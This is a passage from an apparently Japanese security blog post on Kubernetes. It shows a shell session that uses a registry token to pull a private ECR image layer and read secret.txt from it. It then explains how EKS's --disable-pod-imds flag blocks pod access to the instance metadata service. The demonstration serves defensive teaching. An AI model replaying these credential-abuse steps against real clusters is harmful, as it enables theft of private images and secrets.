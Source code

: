 ```shell
  "os": "linux",
  "rootfs": {
    "type": "layers",
    "diff_ids": [
      "sha256:50644c29ef5a27c9a40c393a73ece2479de78325cae7d762ef3cdc19bf42dd0a",
      "sha256:0e93ab7e92aa71e6ad2e6227fc001d8311e4c7827ef882bfe0fadffcfdf8b3e0"
    ]
  }
}

root@test:~# curl -L -H 'Accept: application/vnd.docker.distribution.manifest.v2+json' -k --user AWS:$TOKEN https://926292163423.dkr.ecr.ap-northeast-1.amazonaws.com/v2/mrtc0/test/blobs/sha256:a34b0c316d63ed56e3cc1a312826765097c78c747445fad0e14d82686cb5563a -o layer.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   117  100   117    0     0    873      0 --:--:-- --:--:-- --:--:--   873
root@test:~# tar xvzf layer.tar.gz
secret.txt
root@test:~# cat secret.txt
this is secret
```

EKS でもこのような攻撃を防ぐために hostNetwork を利用しないコンテナが IMDS に接続しないように設定できます。[^5]  
カスタム Launch template を使っているか、Self-managed かどうかなどで設定方法が変わってきますが、今回の場合だと `eksctl create nodegroup` でノードグループを作成する際に、 `--disable-pod-imds` フラグを付与することでアクセスを禁止することができます。  
禁止すると次のように 401 が返ってくるようになります。

```shell
bash-5.0# curl -i http://169.254.169.254/
HTTP/1.1 401 Unauthorized
Content-Length: 0
Date: Mon, 23 Nov 2020 14:50:10 GMT
Server: EC2ws
Connection: close
Content-Type: text/plain
```

---

[^1]: https://cloud.google.com/kubernetes-engine/docs/concepts/cluster-trust
[^2]: https://kubernetes.io/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers
[^3]: https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity
[^4]: https://cloud.google.com/kubernetes-engine/docs/how-to/shielded-gke-nodes
[^5]: https://docs.aws.amazon.com/eks/latest/userguide/best-practices-security.html
